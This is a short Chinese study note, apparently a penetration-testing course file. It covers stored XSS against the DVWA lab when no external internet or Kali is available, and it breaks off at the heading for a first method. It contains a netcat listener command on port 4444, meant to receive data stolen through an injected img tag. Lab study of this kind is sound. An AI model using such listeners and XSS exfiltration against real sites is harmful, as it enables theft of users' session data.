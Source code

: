 ![image-20210920124143089](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20XSS%E4%BB%8B%E7%BB%8D.assets/image-20210920124143089.png)





### 如果某天不能用外网，也不能用kali：

以DVWA的存储型XSS为例

使用nc监听4444端口：

【windows在nc存在的目录下打开命令行】

```
nc -lvp 4444
```

```
具体nc的使用方法查看：渗透测试微专业学习04.md
```



方法一：创建img标签写入文件+nc
